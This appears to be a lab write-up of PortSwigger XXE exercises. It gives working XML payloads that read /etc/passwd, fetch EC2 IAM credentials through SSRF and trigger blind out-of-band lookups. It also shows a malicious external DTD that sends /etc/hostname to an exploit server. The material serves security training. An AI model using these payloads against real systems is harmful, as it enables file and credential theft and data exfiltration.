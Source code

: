 # XXE

- https://portswigger.net/web-security/xxe
- https://portswigger.net/web-security/xxe/xml-entities
- https://portswigger.net/web-security/xxe/blind

## Exploiting XXE using external entities to retrieve files

`POST /product/stock` requests check the amount of products in the store and uses XML as a data format as seen in the request body below:

```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

Once we modify the `productId` to a `WRONG` value, we can notice that it is being reflected as an error, so if this part would be vulnerable to XXE, we could read system files this way.

Modifying the request to below body results in the error response containign `file123`, which proves that the parser uses unsafe features of external entities

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE check [<!ENTITY file "file123">]>
<stockCheck><productId>&file;</productId><storeId>1</storeId></stockCheck>
```


`<!DOCTYPE check [...]>` defines document and allow specifing its entities.

`< ... [<!ENTITY file "file123">]>` defines an entity `file`, which when accessed by `&file;` will result in value `file123`

Now we can modify the entity to the below value, which will contain the content of `/etc/passwd` file inside `file` entity, which once reference in `productId` param will retrieve its value and result in an error displaying it to us.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE check [<!ENTITY file SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>&file;</productId><storeId>1</storeId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks

Same history in this task, but this time we need to retrieve the value from external source (simulated EC2 instace metadata endpoint). To achieve this the following payload could be used

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE dxxe [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

`http://169.254.169.254/` was provided in the lab description and fetching its content responded with all the possible next paths that could be taken and that proces ran recursively solves the lab.

Finding secret keys path in steps:
 - `/` -> `latest`
 - `/latest` -> `meta-data`
 - `/latest/meta-data` -> `iam`
 - and so on...

EC2 docs could also be checked for this.

## Blind XXE with out-of-band interaction

Burp Collaborator required - Pro feature only.

To solve the lab create entity definition `xxe` as shown below and reference in `productId` key, by `&xxe;`:

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

## Blind XXE with out-of-band interaction via XML parameter entities

Burp Collaborator required - Pro feature only.

Solving the lab here is nearly the same as before, but this time casual entities are blocked. Fortunately we can make use of parameter entities.

```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.

## Exploiting blind XXE to exfiltrate data using a malicious external DTD

We cannot retrieve the file content via error messages, because always general error response is returned. 

To solve this lab we require a server that would host a malicious partial dtd declaration shown below.

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://exploit-0a58001904b1e593812c83dd01d80063.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Now again in `POST /product/stock` request by modyfing the body, injecting the below payload leaks the hostname as a request param in explot server.

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a58001904b1e593812c83dd01d80063.exploit-server.net/exploit.dtd"> %xxe;]>
```

How this works?

By specifing and invoking `xxe` parameter entity, we say to the parser to fetch further `ENTITY` definitions from specified url and inject them into `DOCTYPE` definition. Further fetched `ENTITY` definitions will read `/etc/hostname` file by `%filel;` entity and dynamically create and entity `%exfiltrate` that will fetch remote server with one of the query params containing file content via `%eval;` entity.
